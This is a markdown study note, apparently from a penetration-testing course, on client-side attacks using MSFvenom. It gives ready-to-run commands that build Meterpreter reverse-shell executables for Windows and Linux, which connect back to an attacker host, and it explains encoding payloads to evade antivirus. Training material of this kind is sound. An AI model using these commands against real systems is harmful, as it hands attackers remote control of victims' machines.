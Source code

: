 ### Client-side attacks

* A client-side attack is an attack vector that involves coercing a client to execute a malicious payload on their system that consequently connects back to the attacker when executed.
* Client-side attacks typically utilize various social engineering techniques like generating malicious documents or portable executables (PEs).
* Client-side attacks take advantage of humain vulnerabilities as opposed to vulnerabilities in services or software running on the target system.
* Given that this attack vector involves the transfer and storage of a malicious payload on the client's system (disk), attackers need to be cognisant of AV detection.

### MSFvenom

#### Definition

* MSFvenom is a command line utility that can be used to generate and encode MSF payloads for various operating systems as well as web servers.
* MSFvenom is a combination of two utilities, namely MSFpayload and MSFencode.
* We can use MSFvenom to generate a malicious meterpreter payload that can be transferred to a client target system. Once executed, it will connect back to our payload handler and provide us with remote access to the target system.

The payload syntax is `platform`/`architecture`/`type`/`protocol`. Example : `windows/x64/meterpreter/reverse_tcp`.

```bash
kali@kali> msfvenom --list payloads
kali@kali> msfvenom --list formats
```

* Staged payload : you specifiy the payload type, `windows/x64/meterpreter/reverse_tcp`.
* Non-staged payload : there are only 2 backslashes, `windows/x64/meterpreter_reverse_tcp`.

#### Windows payloads

```bash
kali@kali> msfvenom -a x86 -p windows/meterpreter/reverse_tcp LHOST=10.10.10.5 LPORT=1234 -f exe -o payloadx86.exe
kali@kali> msfvenom -a x64 -p windows/x64/meterpreter/reverse_tcp LHOST=10.10.10.5 LPORT=1234 -f exe -o payloadx64.exe
```

#### Linux payloads

```bash
kali@kali> msfvenom -p linux/x86/meterpreter/reverse_tcp lhost=10.10.10.5 lport=1234 -f elf -o payloadx86.elf
msfvenom -p linux/x64/meterpreter/reverse_tcp lhost=10.10.10.5 lport=1234 -f elf -o payloadx64.elf
```

#### Payload encoding

* Given that this attack vector involves the transfer and storage of a malicious payload on the client's system (disk), attackers need to be cognisant of **AV detection**.
* Most of end user AV solutions utilize signature based detection in order to identify malicious files or executables.
* We can evade older signature based AV solutions be encoding our payloads.
* Encoding is the process of modifying the payload shellcode with the objective of **modifying the payload signature**.
* **Shellcode** (shell-code) is a piece of code typically used as a payload for exploitation.
* It gets its name from the term command shell, whereby shellcode is **a piece of code** that provides an attacker with a remote command shell on the target system.
